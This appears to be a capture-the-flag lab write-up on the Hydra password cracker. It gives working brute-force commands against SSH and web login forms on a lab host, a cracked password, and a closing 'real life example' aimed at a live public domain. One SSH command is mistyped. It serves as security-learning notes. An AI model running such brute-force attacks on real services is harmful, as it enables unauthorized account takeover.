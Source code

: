 # OFFENSIVE SECURITY TOOLING

================================================================================================================================================================================================================================================================================================

#                                             HYDRA
================================================================================================================================================================================================================================================================================================

- Hydra is a free and open-source password-cracking tool. It can try numerous passwords till the correct password is found. It can be used to crack passwords for various network services, including SSH, Telnet, FTP, and HTTP.

- This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed

- Commnad for hydra depends on which service we are using :
    -  if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:
        - ` hydra -l user -P passlist.txt ftp://10.10.152.100 `

- For us , this time we gotta use SSH , and the website uses POST method

- so for SSH , the command is as follows : ` ssh -l <username> -P <passowrd path> ip_address_of_target -t 4 SSH ` WHere:
    -  ` -l` => username
    -  ` -P` -> Password list
    -  ` -t` => No. of threads 
    - Add service at the end

- We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
    - For knowing the methods, go to developer option and then go to network tab, refrest webpage and u see request in the tab, click it and there u get the methods being used

- Now it was time for testing this skill out, so i am given a wbesite with ip ->   " http://10.10.152.100 "

- SO i had 2 taks, one is find SSH password and the next is find the WEBLOGIN password, as i knew the username , it was " molly "

- So for finding the ssh, what i did first is check if ssh is opne, so i did ` nmap -p 22  10.10.152.100 ` , i got to know that ssh is open

- Next i used `HYDRA` To find SSH password , as follows :
    - ` hydra -l molly -P <password path> -t 4 ssh://10.10.152.100 `
    - Them i got pass as ` butterfly `
    - now had to get the flag, so i logged in ssh as ` ssh molly@10.10.152.100 `, and entered the pass, hence i logged in as molly !

- Now i had to get the web login pass , for this i did as follows :
    - First i went to login page and then `F 12 ` DEVELOPERS option and then , netwrk tab !
    - After going to network tab , i refrehed the page and i found that LOGIN used GET form , so i ussed the following command :
        - ` hydra -l molly -P <pass path> 10.10.152.100 http-get-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v `
        - This gave me 16 password, i tried all , none worked, then i came to know, even POST can be used for login pages, so i modify command to : ` hydra -l molly -P <pass path> 10.10.152.100 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v `

        - HENCE i got the password.!

- REAL LIFE EXAPMPLE FOR HYDRA IS -> ` hydra -l <username> -P /usr/share/wordlists/rockyou.txt https://tryhackme.com http-post-form '/login:username=^USER^&password=^PASS^:F=incorrect' `
 
